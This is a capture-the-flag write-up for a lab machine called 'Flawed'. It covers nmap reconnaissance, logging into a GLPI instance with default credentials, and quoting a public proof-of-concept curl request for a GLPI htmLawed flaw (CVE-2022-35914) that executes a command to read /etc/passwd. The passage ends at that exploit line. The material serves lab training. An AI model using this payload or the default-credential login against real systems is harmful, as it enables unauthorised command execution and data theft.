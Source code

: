 # Flawed machine from brCTF

## Information Gathering/Reconnaissance
As is customary, we initiate our preferred network scanning tool, Nmap, to conduct initial reconnaissance. Our scan reveals that port 80, which is typically associated with HTTP and port 22, are accessible. <br>
`nmap -sC -sV -oN flawed.nmap 10.0.160.157`
```
Nmap scan report for 10.0.160.157
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Authentication - GLPI
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second phase of our reconnaissance, we proceed to examine the application hosted on port 80 by accessing it through our web browser. To our surprise, we are welcomed with a login page. Quite intriguing!
![GLPI Login](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/glpi-login.png "a title")

After a brief research on google we discovered default credentials for GLPI which we can try on out target.
![google glpi logins](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/glpi-default-creds.png "a title")

We now attempt to login to GLPI and viola!!<br>
From there we move on with out recon and attempt to find the version of GLPI running. Hopefully we can find publicly available exploits.
![glpi logged in](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/checking-glpi-version.png "a title")
The version of GLPI can be seen in the photo below.
![glpi version enum](https://github.com/theMcSam/brCTF-writeups/blob/main/cockpit/images/glpi-version.png "a title")

Now that we know the version running, we can google it to find avaiable exploits and shortly after, we find one on github from [Orange-CyberDefense](https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/POC_2022-35914.sh)

```curl -s -d 'sid=foo&hhook=exec&text=cat /etc/passwd' -b 'sid=foo' http://localhost/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'```
